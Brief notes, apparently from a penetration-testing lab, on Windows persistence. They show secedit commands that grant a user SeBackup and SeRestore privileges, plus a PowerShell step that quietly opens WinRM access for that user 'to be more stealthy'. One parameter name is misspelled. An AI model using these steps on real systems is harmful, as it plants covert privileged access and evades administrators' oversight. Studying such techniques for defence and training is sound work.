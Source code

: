 Export config

```PowerShell
secedit /export /cfg config.inf
```

Open file in notepad and search for SeBackup and SeRestore.
Add a comma at the end and add the username you want to have rights.
Do that for both backup and restore.

Now convert it back.

```Powershell
secedit /import /cfg config.inf /db config.db
secedit /configure /db config.db /cfg config.inf
```

So we don't have to add the user to remote management users and we want to be more stealthy lets allow winrm this way.

```PowerShell
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDiscriptorUI
```

Add user to popup.  



